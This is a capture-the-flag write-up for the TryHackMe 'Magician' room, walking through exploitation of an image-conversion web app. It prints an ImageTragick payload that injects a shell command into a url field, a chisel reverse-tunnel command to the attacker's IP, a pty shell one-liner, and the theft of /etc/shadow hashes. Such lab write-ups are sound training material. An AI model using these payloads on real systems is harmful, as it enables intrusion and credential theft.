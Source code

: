 ```yaml
---
layout: post
title: Tryhackme - Magician
date: 2021-03-06 19:00:00 +0000
category: [Tryhackme, Easy]
tags: [thm,linux,easy,reverse-shell]
---
```


---
Magician is a easy level room in Tryhackme. Some important points to note in this room is that the ```ssh service``` is not available in this room and eventhough I got the root password hash from the ```/etc/shadow``` file, I was not able to crack the hash and get the root shell.

<br>
![cover_image](/assets/img/tryhackme/magician/1.png)

**Author** | M0N573R777 and ripcurlz
**Description** | This magical website lets you convert image file formats


Deploy the VM and let's Hack the machine.

## <ins>Enumeration</ins>
---
Before enumerating add the domain name ```magician``` to the ```/etc/hosts``` file in your local machine as provided in the description.
<br>
![etc_hosts](/assets/img/tryhackme/magician/2.png)
<br>
Let's start enumerating with the usual nmap scan.
<br>
![nmap_scan](/assets/img/tryhackme/magician/nmap_scan.png)
<br>
From the nmap scan we can see that the ports ```21/ftp```, ```8080/http-proxy``` and ```8081/http``` are open.

The first port I checked is the ```21/ftp```. At first, I thought the service took too long to respond but I found that it was made intentional.
<br>
![ftp_service](/assets/img/tryhackme/magician/3.png)
<br>

From the hint given from the ftp service, I found the webpage had to do something with converting images or manipulating images.

After visiting the webpage which works in the ```port 8081```, I confirmed my theory.
Use the url ```http://magician:8081/``` in your browser.
<br>
![http_service](/assets/img/tryhackme/magician/4.png)
<br>
From the page ```https://imagetragick.com``` I found the code to exploit. I copied the code, saved it as ```list.png``` and uploaded it.
<br>
![exploit_code](/assets/img/tryhackme/magician/6.png)
<br>
![upload_file](/assets/img/tryhackme/magician/7.png)
<br>
Then, I tried executing it, which didn't yield any result. The next thing I did is changing the command to get a ping back to my local machine.
<br>
<pre>
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/someimage.jpg"|ping -c 3" your-vpn-ip'
pop graphic-context
</pre>
<br>
Save the above code as a ```.png``` file and upload it. And in my machine I executed the command...
<br>
<pre>sudo tcpdump -i tun0 icmp</pre>
<br>
I successfully got the ping back from the machine.


<ins>User flag</ins>
----
I changed the command to get the reverse shell and did the same process again.
<br>
![reverse_payload](/assets/img/tryhackme/magician/8.png)
<br>
I started an netcat listener in my local machine, and finally uploaded the image. I got the reverse shell.
<br>
![reverse_shell](/assets/img/tryhackme/magician/9.png)
<br>
I stabilized the shell using ```python3 -c 'import pty;pty.spawn("/bin/bash")'```.

I found the user flag in the home directory of the user ```magician```.
<br>
![user_flag](/assets/img/tryhackme/magician/10.png)
<br>
Without further ado, let's also get the root flag.


<ins>Root flag</ins>
----
I found some files in the same directory which gave me a hint for getting the root flag.
<br>
![note_magician](/assets/img/tryhackme/magician/11.png)
<br>
The term ```locally listening``` rang a bell, so I checked the open ports running in the localhost of the machine using the ```ss``` utility
<br>
<pre>ss -tnlp</pre>
<br>
![ss_localhost](/assets/img/tryhackme/magician/12.png)
<br>
I found that something is running on the ```port 6666```. So, I transferred the ```chisel``` tunnelling tool to tunnel the port 6666 running on the remote machine to run in my localhost. Also make the file executable using ```chmod +x ./chisel```.
<br>
<pre>
##In the local machine
./chisel server --port 8080 --reverse

##In the remote machine
./chisel client your-vpn-ip:8080 R:8081:127.0.0.1:6666
</pre>
<br>
![server_side](/assets/img/tryhackme/magician/13.png)
<br>
![client_side1](/assets/img/tryhackme/magician/14.png)
<br>
A point to note here is that, the ```port 6666``` will be blocked by ```Firefox``` by making it restricted. This is one of the security features. If you want to disable the port restriction, a simple google search will yield the answer.

So, I changed the port to work in ```8081```.
<br>
![client_side2](/assets/img/tryhackme/magician/15.png)
<br>
Going the url ```127.0.0.1:8081``` I found this...
<br>
![localhost](/assets/img/tryhackme/magician/16.png)
<br>
I tried to get the ```root.txt``` file since the root will always be placed in the ```/root``` directory. The output showed the root flag in the ```rot13``` ciphertext. This means that the wepage is running as root.
<br>
![root_flagrot](/assets/img/tryhackme/magician/18.png)
<br>
I used ```CyberChef``` to decode the text. It is a ```ROT13``` cipher.
<br>
![root_flag](/assets/img/tryhackme/magician/19.png)
<br>
I also retrieved the ```/etc/shadow``` file which contains the password hashed of all the users.
<br>
![etc_shadow](/assets/img/tryhackme/magician/20.png)
<br>
![etc_shadow](/assets/img/tryhackme/magician/21.png)
<br>
I tried cracking it using tools such as ```hashcat``` and ```crackstation.net``` but I couldn't get the root password.

Anyways we got both the user and the root flag.

Sorry for not posting so long.

That's it folks. Happy Hacking!!! 
